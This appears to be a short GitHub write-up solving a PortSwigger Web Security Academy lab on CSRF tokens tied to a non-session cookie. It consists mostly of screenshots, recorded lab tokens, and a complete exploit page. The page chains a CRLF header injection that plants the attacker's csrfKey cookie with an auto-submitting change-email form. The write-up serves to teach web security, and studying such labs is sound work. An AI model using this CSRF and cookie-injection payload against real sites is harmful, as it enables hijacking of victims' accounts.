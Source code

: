 ## CSRF where token is tied to non-session cookie

<img width="939" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/a232ed68-3fe1-41c9-a666-efd6371aa424">

## Solutions:

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/1ad74402-c2b1-410d-9e77-8e0f8584d940">


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/6f5e3979-8431-42b0-b1bf-ada5a24508ca">

For User Wiener

csrf: gDbE9aGELpWRSrZzpZEKiBbylXUETUFq csrfkey: LbMYzTBNpxwMUXksBmrOjPbthEd8Na4f

For User Carlos

csrf: OVfPpgEizfZ5aZBoTEsroDPgKMNt3YM4 csrf Key: 24uBgd1HRRlHUII7bYBNz7F1lVekHYDc

<img width="1431" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/3bb6c7e7-3b26-48f3-aa9c-75798a0352ca">

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/ad4f0c00-4d16-458c-85a6-4710f6e71617">
<html>
  
  
  <body>
  <script>history.pushState('', '', '/');</script>
    <form action="https://0ac1000b0422fe7d82422e29004d0020.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hii45&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="tUPKneNhIgQi2QfZI41tvlsVR6e53bh4" />
      <input type="submit" value="Submit request" />
    </form>
  <img src="https://0ac1000b0422fe7d82422e29004d0020.web-security-academy.net/?search=hey%0d%0aSet-Cookie:%20csrfKey=SQFZcaxFoVU3URyQrh2buswScSlxyapG%3b%20SameSite=None" onerror="document.forms[0].submit()">
 </body>
</html>
-------------------
<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/047b2a16-51b6-401e-8cf5-61851e5fe57b">

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/d2056606-8154-47b7-83d1-31a6222c14be">
